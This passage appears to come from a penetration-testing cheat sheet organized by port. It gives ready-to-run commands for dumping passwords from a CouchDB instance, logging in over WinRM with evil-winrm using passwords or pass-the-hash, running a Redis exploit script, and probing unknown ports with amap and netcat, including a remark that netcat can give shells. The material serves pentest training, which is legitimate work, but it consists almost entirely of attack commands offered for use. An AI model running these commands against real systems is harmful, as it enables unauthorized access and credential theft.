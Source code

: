 ```bash

# Dump passwords
curl -X GET http://user:passwords@localhost:5984/passwords
```

## Port 5985 - WinRM

```bash
# https://github.com/Hackplayers/evil-winrm
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```

## Port 6379 - Redis

```bash
# https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis
```

## Port 8172 - MsDeploy

```bash
# Microsoft IIS Deploy port
IP:8172/msdeploy.axd
```

## Port 5601/9200

[ELK](webservices/elk.md)

## Port 27017-19/27080/28017 - MongoDB

[MongoDB](webservices/nosql-and-and-mongodb.md)

## Unknown ports

* `amap -d 10.11.1.111 8000`
* netcat: makes connections to ports. Can echo strings or give shells: `nc -nv 10.11.1.111 110`
* sfuzz: can connect to ports, udp or tcp, refrain from closing a connection, using basic HTTP configurations

## RCE ports

![](<../.gitbook/assets/image (18).png>)
